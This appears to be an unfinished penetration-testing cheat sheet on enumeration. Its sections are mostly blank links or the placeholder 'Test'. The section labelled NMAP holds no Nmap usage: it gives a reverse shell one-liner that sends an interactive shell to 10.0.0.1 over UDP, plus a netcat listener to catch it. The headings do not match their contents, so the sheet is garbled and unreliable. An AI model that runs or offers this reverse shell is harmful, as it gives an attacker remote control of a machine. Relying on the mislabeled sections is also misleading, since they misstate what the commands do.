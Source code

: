 # Enumeration

## Summary
* [NMAP](#NMAP)
* [WFUZZ](#WFUZZ)
* [Directory](#Directory)
   * [DB](#DIRB)
   * [DIRBUSTER](#DIRBUSTER)
* [Credentials](#)
   * [John-the-Ripper](#)
* [](#)
* [](#)
* [](#)
* [](#)
* [](#)
 

### NMAP

```
TCP:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

UDP:
nc -u -lvp 4242
```

### WFUZZ
```
https://wfuzz.readthedocs.io/en/latest/user/basicusage.html
```

### DIRB
```
Test
```

### DIRBUSTER
```
Test
```
